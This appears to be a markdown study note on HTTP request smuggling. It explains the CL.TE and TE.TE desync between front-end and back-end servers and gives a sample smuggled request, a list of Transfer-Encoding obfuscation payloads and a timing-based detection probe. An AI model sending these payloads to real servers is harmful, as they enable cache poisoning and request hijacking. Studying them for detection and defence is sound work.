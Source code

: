 # Core Concepts 
HTTP/1.1 allows sending multiple requests in a single HTTP connection.
requests are aligned sequentially and the servers parsers the headers to 
determine a request begins and ends and where another starts. 

This of course is harmless but with the modern natures of systems, 
distributed and communicated with each using HTTP, a semantic gap is 
created where there is a gap btn a front-end server and a back-end 
server and these two/more servers tend to parse these HTTP requests 
slightly differently. 

# On Transfer-Encoding and Content-Length
If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter **MUST** be ignored.
Whenever we find a way to hide the Transfer-Encoding header from one server in a chain it will fall back to using the Content-Length and we can desynchronize the whole system

# TE.TE 
A scenario where both the back end and front end server 
support Transfer-Encoding but one can be induced to ignore 
the header by obfuscating the header value. 

# Sample Request
    POST / HTTP/1.1
    Host: example.com
    Content-Length: 6
    Transfer-Encoding: chunked

    0\r\n
    G\r\n
    \r\n
    POST / HTTP/1.1
    Host: example.com


    0 (1 byte)
    \r\n (carriage return + line feed, 2 bytes)
    G (1 byte)
    \r\n (carriage return + line feed, 2 bytes)


# Obfuscating Payloads 
    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked


# Detecting HTTP Request Smuggling
I'll refer to this orientation as `CL.TE` for short. 
We can detect potential request smuggling by sending the following request:

    POST /about HTTP/1.1
    Host: example.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    Z
    Q

Thanks to the short Content-Length, the front end will forward the blue text only, 
and the back end will time out while waiting for the next chunk size. 
This will cause an observable time delay.

If both servers are in sync `TE.TE` or `CL.CL`, the request will either be rejected by the front-end or 
harmlessly processed by both systems. Finally, if the desync occurs the other way around `TE.CL`
the front-end will reject the message without ever forwarding it to the back-end, 
thanks to the invalid chunk size `Q`. This prevents the back-end socket from being poisoned.



# Further Research:
[Varnish HTTP/2 Request Forgery](https://docs.varnish-software.com/security/VSV00011/)

# Real World Exploits
[HTTP request smuggling on Basecamp 2 leads to web cache poisoning](https://hackerone.com/reports/919175)